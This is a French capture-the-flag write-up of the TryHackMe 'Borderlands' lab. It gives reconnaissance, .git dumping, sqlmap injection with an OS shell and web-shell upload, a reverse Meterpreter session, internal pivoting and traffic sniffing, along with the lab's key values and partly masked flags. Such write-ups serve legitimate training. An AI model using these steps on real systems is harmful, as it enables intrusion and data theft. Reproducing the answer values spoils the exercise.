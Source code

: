 ## TryHackMe – Borderlands

> **Objectif :** montrer pas à pas la méthodologie d’attaque – de la compromission du périmètre jusqu’au pivot réseau – tout en conservant un style clair, synthétique et professionnel.

---

### 1 . Déploiement & Contexte

- Room : **Borderlands** – TryHackMe (difficulté : Hard)
- Topologie : un hôte périmétrique exposé à Internet, un réseau DMZ et un LAN interne derrière un routeur Linux.
- Outils : Kali Linux, Nmap, GitHack, Apktool, SQLMap, Metasploit.

---

### 2 . Reconnaissance réseau

```bash
sudo nmap -p- -sS -sV -A <IP-CIBLE>
```

| Port | Service | Détails utiles                          |
| ---- | ------- | --------------------------------------- |
| 22   | SSH     | OpenSSH 7.2p2 Ubuntu                    |
| 80   | HTTP    | **nginx 1.14.0** – dépôt `.git/` exposé |
| 8080 | Closed  | (proxy)                                 |

> Le scan révèle une application PHP peu sécurisée et un dépôt Git accessible : excellent point d’entrée.

---

### 3 . Analyse du site web & clés API

1. **Dump du dépôt Git**

   ```bash
   python GitHack.py http://<IP-CIBLE>/.git/
   ```

   - Fichiers PHP & APK récupérés.
   - Historique : commit *“removed sensitive data”*.

2. **Extraction des clés**

| Clé       | Méthode                               | Valeur                           |
| --------- | ------------------------------------- | -------------------------------- |
| **AND\*** | Décompilation APK + Vigenère          | `ANDVOWLDLAS5Q8OQZ2tuIPGcOu2mXk` |
| **WEB\*** | Lecture directe `home.php`            | `WEBLhvOJAH8d50Z4y5G5g4McG1GMGD` |
| **GIT\*** | Inspection d’un commit (git cat-file) | `GITtFi80llzs4TxqMWtCotiTZpf0HC` |

---

### 4 . Injection SQL & Shell WebApp

1. **Détection SQLi**

   ```bash
   sqlmap -r request.txt --batch
   ```

   - Paramètre vulnérable : `documentid` (UNION, error‑based, time‑based).

2. **Shell PHP**

   ```bash
   sqlmap -r request.txt -D myfirstwebsite --os-shell
   ```

   - Upload d’un web‑shell (`tmpbsjex.php`).
   - Reverse Meterpreter → privilèges **www-data**.

3. **Flag WebApp**

   ```bash
   cat /var/www/flag.txt
   {FLAG:Webapp:48***a6}
   ```

---

### 5 . Pivot vers le réseau interne

| Interface | Adresse        | Rôle        |
| --------- | -------------- | ----------- |
| eth0      | 172.18.0.2/16  | DMZ         |
| eth1      | 172.16.1.10/24 | LAN interne |

- ARP : plusieurs hôtes 172.16.1.250‑254 ; routeur probable : **172.16.1.1**.

---

### 6 . Découverte & rebond

1. **Balayage ARP Python** → identification de 172.16.1.1.
2. **Port‑forward/Tunnel** (si nécessaire) avec SSH dynamique.

---

### 7 . Compromission de router1

- Escalade vers **root** (exploit Kernel/Sudo).
- **Flag Router1**
  ```bash
  cat /root/flag.txt
  {FLAG:Router1:c8***cd}
  ```

---

### 8 . Capture des communications internes

| Protocole | Commande                               | Flag                 |
| --------- | -------------------------------------- | -------------------- |
| UDP       | `tcpdump -i eth0 -A \| grep FLAG:TCP`  | `{FLAG:UDP:3b***3c}` |
| TCP       | `tcpdump -i eth0 -A \| grep FLAG:TCP`  | `{FLAG:TCP:8f***3e}` |

---

### 9 . Récapitulatif rapide

| Étape   | Outil               | Résultat            |
| ------- | ------------------- | ------------------- |
| Recon   | **Nmap**            | Ports 22/80         |
| Code    | **GitHack**         | Source + APK        |
| Mobile  | **Apktool**         | Clé AND             |
| Lecture | **grep**            | Clé WEB             |
| Git     | **git cat-file**    | Clé GIT             |
| Exploit | **SQLMap**          | Shell + Flag WebApp |
| Pivot   | ifconfig / ARP scan | Accès LAN           |
| Root    | Escalade kernel     | Flag Router1        |
| Sniff   | tcpdump / socat     | Flags UDP & TCP     |

---

### 10 . Conclusion

Cette room démontre qu’une démarche méthodique (recon → enum → exploit → pivot → post‑exploitation) reste efficace, même en difficulté *Hard*. Les dépôts Git oubliés, l’ingénierie inverse sur mobile et la surveillance réseau sont souvent sous‑estimés ; ils se révèlent pourtant décisifs pour une compromission complète.

---

***Auteur*** *: Saad Idrissi*
